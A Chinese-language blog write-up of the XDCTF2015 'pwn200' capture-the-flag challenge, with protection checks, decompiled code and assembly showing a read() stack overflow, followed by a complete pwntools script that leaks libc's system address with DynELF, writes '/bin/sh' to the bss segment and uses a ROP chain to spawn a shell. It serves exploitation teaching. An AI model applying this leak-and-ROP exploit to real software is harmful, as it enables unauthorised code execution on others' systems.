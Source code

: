 ```yaml
---
layout:     post
title:      "XDCTF2015之pwn200"
subtitle:   "DynELF实现无libc利用"
date:       2018-06-19 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
 
---
```

## 0x00 代码分析

检查保护，只开启了NX

	gdb-peda$ checksec
	CANARY    : disabled
	FORTIFY   : disabled
	NX        : ENABLED
	PIE       : disabled
	RELRO     : Partial


IDA伪代码

	ssize_t sub_8048484()
	{
	  char buf;   #[esp+1Ch] [ebp-6Ch]
	
	  setbuf(stdin, &buf);
	  return read(0, &buf, 0x100u);
	}

	int __cdecl main()
	{
	  int buf;   #[esp+2Ch] [ebp-6Ch]
	  int v2;   #[esp+30h] [ebp-68h]
	  int v3;   #[esp+34h] [ebp-64h]
	  int v4;   #[esp+38h] [ebp-60h]
	  int v5;   #[esp+3Ch] [ebp-5Ch]
	  int v6;   #[esp+40h] [ebp-58h]
	  int v7;   #[esp+44h] [ebp-54h]
	
	  buf = 1668048215;
	  v2 = 543518063;
	  v3 = 1478520692;
	  v4 = 1179927364;
	  v5 = 892416050;
	  v6 = 663934;
	  memset(&v7, 0, 0x4Cu);
	  setbuf(stdout, (char *)&buf);
	  write(1, &buf, strlen((const char *)&buf));
	  sub_8048484();
	  return 0;
	}

汇编代码(关键函数sub_8048484)
	
	.text:08048484 sub_8048484     proc near               ; CODE XREF: main+A1↓p
	.text:08048484
	.text:08048484 buf             = byte ptr -6Ch
	.text:08048484
	.text:08048484 ; __unwind {
	.text:08048484                 push    ebp
	.text:08048485                 mov     ebp, esp
	.text:08048487                 sub     esp, 88h
	.text:0804848D                 mov     eax, ds:stdin
	.text:08048492                 lea     edx, [ebp+buf]
	.text:08048495                 mov     [esp+4], edx    ; buf
	.text:08048499                 mov     [esp], eax      ; stream
	.text:0804849C                 call    _setbuf
	.text:080484A1                 mov     dword ptr [esp+8], 100h ; nbytes
	.text:080484A9                 lea     eax, [ebp+buf]
	.text:080484AC                 mov     [esp+4], eax    ; buf
	.text:080484B0                 mov     dword ptr [esp], 0 ; fd
	.text:080484B7                 call    _read
	.text:080484BC                 leave
	.text:080484BD                 retn
	.text:080484BD ; }   #starts at 8048484
	.text:080484BD sub_8048484     endp

明显sub_8048484()里read函数导致buf溢出

## 0x01 漏洞利用

该程序无cookie，存在很明显的栈溢出漏洞，且可以循环泄露，符合我们使用DynELF的条件。具体的栈溢出位置等调试过程就不细说了，只简要说一下借助DynELF实现利用的要点：

**先用write函数Memleak出目标主机systemAddr（leak函数里面对接收数据的处理尤其重要），再将/bin/sh写入bss段，用三个pop ret ROP调用system函数拿下shell**

## 0x02 脚本代码

	#!usr/bin/python
	# -*- coding: utf-8 -*-
	from pwn import *
	import pwnlib
	context(os='linux', log_level='debug')
	p = process("./pwn200")
	elf = ELF("./pwn200")
	writeplt = elf.symbols['write']
	readplt = elf.symbols['read']
	main_address =0x080484BE      #调用main函数
	bss_address =0x0804a020    #bss段,用来写入“/bin/sh\0”
	def leak(address):
	  payload = "A" * 112
	  payload += p32(writeplt)
	  payload += p32(main_address)
	  payload += p32(1)
	  payload += p32(address)
	  payload += p32(4)
	  p.send(payload)
	  data= p.recvuntil("XDCTF2015~!\n")
	  data=data.split('Welcome')[0]
	  print "%#x => %s" % (address, (data or '').encode('hex'))
	  return data
	
	
	p.recvline()
	dynelf = DynELF(leak, elf=ELF("./pwn200"))
	systemAddress = dynelf.lookup("system", "libc") 
	print "systemAddress:=====", hex(systemAddress)
	
	
	ppprAddress = 0x0804856c  #连续3次pop的ROP
	payload1 = "A" * 112
	payload1 += p32(readplt)
	payload1 += p32(ppprAddress)
	payload1 += p32(0)
	payload1 += p32(bss_address)
	payload1 += p32(8)
	payload1 += p32(systemAddress) + p32(main_address) + p32(bss_address)
	
	p.send(payload1)
	p.send('/bin/sh\x00')
	
	p.interactive()

## 0x03 总结

最开始我在leak函数里面，反复调用sub_8048484()，避免接收 "Welcome to XDCTF2015~!"
这个字符串，但是发现这样找到system地址返回后调用时可能堆栈出现了点问题，如果要这样用的话可以在找到地址后覆盖main函数以平衡栈空间，再进行下一步。更要善于观察栈空间结构。

[文件下载](https://github.com/yxshyj/project/tree/master/pwn/XDCTF2015%E4%B9%8Bpwn200)

